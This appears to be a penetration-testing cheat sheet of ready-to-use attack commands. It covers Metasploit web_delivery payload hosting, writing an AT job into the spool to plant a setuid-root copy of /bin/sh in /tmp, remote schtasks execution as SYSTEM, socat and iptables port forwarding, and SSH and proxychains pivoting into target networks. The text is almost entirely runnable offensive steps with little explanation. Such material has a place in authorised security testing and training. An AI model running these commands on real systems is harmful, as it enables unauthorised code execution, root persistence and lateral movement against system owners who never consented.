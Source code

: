 ### Metasploit delivery methods:
```
use exploit/multi/script/web_delivery
show targets
set payload ???
set SRVHOST ???
set URIPATH /
run
```

### AT job
'''
echo '# owner: root' >> /usr/spool/at/87.01.1201.01
echo '# jobname: stdin' >> /usr/spool/at/87.01.1201.01
echo '# shell: sh' >> /usr/spool/at/87.01.1201.01
echo '# notify by mail: no' >> /usr/spool/at/87.01.1201.01

echo 'umask 0' >> /usr/spool/at/87.01.1201.01
echo 'echo "/bin/cp /bin/sh /tmp/sh && /bin/chmod 4755 /tmp/sh" | /bin/sh' >> /usr/spool/at/87.01.1201.01
chmod 400 87.01.1201.01
'''


### Windows scheduled task
```
schtasks /Create /tn ExampleTask /TR c:\windows\system32\calc.exe /SC once /ST 00:00 /S target.host.domain /RU System
schtasks /Run /TN ExampleTask /S target.host.domain
schtasks /F /Delete /TR ExampleTask /S target.host.domain
```
## Port forwarding/masquerading

SOCAT: `socat TCP-LISTEN:80,fork TCP:192.168.1.1:80`\
IPTables: `iptables -A PREROUTING -t nat -p tcp --dport 80 -j DNAT –to 192.168.1.1:80'`

## Pivoting

### SSH with Proxychains

Setup a dynamic local SOCKS proxy: `ssh -fN -D 127.0.0.1:8888 user@target-host.com`\
Config file: eg `pivot.conf`\
```
strict_chain # Do each connection via the proxies listed in order, alts: dynamic_chain, random_chain
quiet_mode # No output
proxy_dns # Proxy DNS requests
remote_dns_subnet 224
tcp_read_time_out 15000
tcp_connect_time_out 8000
localnet 127.0.0.0/255.0.0.0 # Exclusions
 
[ProxyList]
socks4  127.0.0.1 8888

Usage: `proxychains4 -f ./pivot.conf wget http://remote-network-target-host.com
DNS Resolution: `proxyresolv www.target-host.com
```
Specify alternate configuration:`-f`
